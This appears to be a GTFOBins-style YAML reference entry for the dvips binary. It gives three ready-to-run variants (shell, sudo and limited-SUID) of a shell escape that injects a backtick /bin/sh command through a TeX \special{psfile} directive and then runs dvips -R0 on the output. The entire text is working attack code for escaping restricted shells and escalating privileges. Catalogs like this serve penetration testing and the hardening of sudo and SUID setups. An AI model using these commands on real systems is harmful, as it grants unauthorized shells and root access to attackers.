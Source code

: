 ```yaml
---
description: The `texput.dvi` output file produced by `tex` can be created offline and uploaded to the target.
functions:
  shell:
    - code: |
        tex '\special{psfile="`/bin/sh 1>&0"}\end'
        dvips -R0 texput.dvi
  sudo:
    - code: |
        tex '\special{psfile="`/bin/sh 1>&0"}\end'
        sudo dvips -R0 texput.dvi
  limited-suid:
    - code: |
        tex '\special{psfile="`/bin/sh 1>&0"}\end'
        ./dvips -R0 texput.dvi
---
```

